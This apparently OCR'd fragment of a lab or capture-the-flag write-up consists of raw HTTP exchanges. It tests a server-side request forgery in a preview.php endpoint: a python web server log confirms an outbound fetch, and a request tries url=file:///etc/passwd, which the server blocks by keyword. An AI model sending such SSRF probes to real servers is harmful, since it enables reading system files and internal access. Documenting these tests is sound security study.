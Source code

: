 ```bash
HTTP/1.1 200 OK
Date: Sat, 06 Sep 2025 xx:xx:xx GMT
Server: Apache/2.4.58 (Ubuntu)
Content-Length: 4
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/plain;charset=UTF-8

Hey

```

<br>
<br>


```bash
:~# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
xx.xx.xxx.xx - - [06/Sep/2025 xx:xx:xx] "GET /testing.txt HTTP/1.1" 200 -
```

<br>
<br>

```bash
GET /preview.php?url=file:///etc/passwd HTTP/1.1
Host: xx.xx.xxx.xx
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://xx.xx.xxx.xx/
Upgrade-Insecure-Requests: 1
Priority: u=4


```

```bash
HTTP/1.1 200 OK
Date: Sat, 06 Sep 2025 xx:xx:xx GMT
Server: Apache/2.4.58 (Ubuntu)
Content-Length: 34
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

URL blocked due to keyword: file:/
```

<br>
<br>
